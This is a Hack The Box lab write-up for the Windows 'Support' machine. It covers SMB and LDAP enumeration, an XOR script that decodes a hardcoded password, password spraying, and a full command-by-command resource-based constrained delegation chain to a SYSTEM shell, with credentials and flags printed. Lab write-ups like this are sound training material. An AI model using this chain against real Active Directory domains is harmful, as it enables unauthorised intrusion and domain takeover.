 # 🧑‍💻 Hack The Box – Support

## 📌 Overview
- **Machine Name:** Support
- **IP Address(es):** 10.10.11.174
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** SMB / Active Directory / LDAP / Reverse Engineering / RBCD
- **Date Completed:** 2025.08.29
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -oA nmap/support 10.10.11.174
```

```
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 08:08:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Findings:**

- 389/tcp → LDAP  
- 139/tcp → SMB (guest access enabled)

### SMB Enumeration
```bash
nxc smb support.htb -u 'a' -p '' --shares
```

```
support-tools   READ
```

```bash
smbclient //support.htb/support-tools -U 'Guest'
```

```
UserInfo.exe.zip
```

---

## 🔍 Reverse Engineering UserInfo.exe

```csharp
public LdapQuery()
{
    string password = Protected.getPassword();
    this.entry = new DirectoryEntry("LDAP://support.htb", "support\ldap", password);
    this.entry.AuthenticationType = AuthenticationTypes.Secure;
    this.ds = new DirectorySearcher(this.entry);
}
```

```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

### Decoding
```py
import base64

enc = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

cipher = base64.b64decode(enc)
plain = bytes([c ^ key[i % len(key)] ^ 223 for i, c in enumerate(cipher)])

print(plain.decode())
```

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Credential Validation
```zsh
nxc ldap support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

```
[+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

---

## 🧭 BloodHound
```zsh
rusthound-ce -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -o bloodhound --ldap-filter='(objectGuid=*)' -c All
```

---

## 🗂️ LDAP Enumeration
```json
"ford.victoria": {
  "info": "Ironside47pleasure40Watchful"
}
```

---

## 🔑 Exploitation – Foothold
```zsh
nxc smb support.htb -u usernames.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```

```
[+] support.htb\support:Ironside47pleasure40Watchful
```

### Shell Access
```zsh
evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
c2ee84b4277d7cab7ea5ae7d9bc1d5bc
```

---

## 🚀 Privilege Escalation

### BloodHound Enumeration
- `support` user → member of **SHARED SUPPORT ACCOUNTS** group  
- This group has **GenericAll** on `DC.support.htb` computer object.  

![BloodHound Enumeration](ScreenShots/support-user-bloodhound.png)

### Exploit: Resource-Based Constrained Delegation (RBCD)
```zsh
impacket-addcomputer -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host DC.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```

```zsh
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

```zsh
getST.py -spn cifs/DC.support.htb -impersonate Administrator support.htb/ATTACKERSYSTEM$:'Summer2018!' -dc-ip DC.support.htb
```

```zsh
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass support.htb/Administrator@DC.support.htb
```

```
C:\Windows\system32> whoami
nt authority\system
```

---

## 🏁 Flags
- **User.txt:** `c2ee84b4277d7cab7ea5ae7d9bc1d5bc`  
- **Root.txt:** `ae1605fecb42f57a3d34817e12d24252`

---

## 🧠 Lessons Learned
**Technical**
- Reverse engineering revealed hardcoded service account credentials.  
- LDAP info fields may leak sensitive data (poor OPSEC).  
- RBCD remains a powerful AD privilege escalation vector.  

**Personal**
- Always test leaked creds against multiple accounts.  
- Automating LDAP parsing speeds up discovery of hidden values.  

**Reusable Techniques**
- Decode obfuscation (base64 + XOR).  
- Use BloodHound to identify misconfigurations.  
- Exploit RBCD for Domain Admin when `GenericAll` on DC computer object.  

---
